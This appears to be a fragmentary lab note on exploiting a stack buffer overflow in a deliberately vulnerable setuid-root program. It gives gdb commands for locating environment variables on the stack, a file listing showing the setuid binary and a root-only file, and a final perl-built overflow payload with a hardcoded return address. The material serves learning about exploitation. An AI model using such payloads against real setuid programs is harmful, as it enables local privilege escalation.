 gdb show environment


x/60s *((char **)environ)

x/s *((char **)environ)
x/s *((char **)environ + 1)



https://security.stackexchange.com/questions/13194/finding-environment-variables-with-gdb-to-exploit-a-buffer-overflow
https://shankaraman.wordpress.com/2015/06/07/finding-the-environment-variables-on-the-stack/
total 40



## this is the file perms and setuid status

-rw-r--r-- 1 cicorias cicorias   450 Mar 13 11:44 helloVuln4.c
-rwsr-xr-x 1 root     root     10040 Mar 13 11:39 helloVuln4
drwx------ 2 cicorias cicorias  4096 Mar 13 11:39 .
-rwx------ 1 root     root        30 Mar 13 11:36 hidden-root.txt
-rw-r--r-- 1 cicorias cicorias   320 Mar 13 11:26 makefile
-rw-rw-r-- 1 cicorias cicorias   317 Mar  3 18:45 NOTE.md
drwxrwxr-x 8 cicorias cicorias  4096 Feb 21 14:16 ..
-rw-r--r-- 1 cicorias cicorias    25 Feb 21 14:16 shell.bin


./helloVuln4 $(perl -e 'print "A"x28 . "\xd1\xdf\xff\xff"')
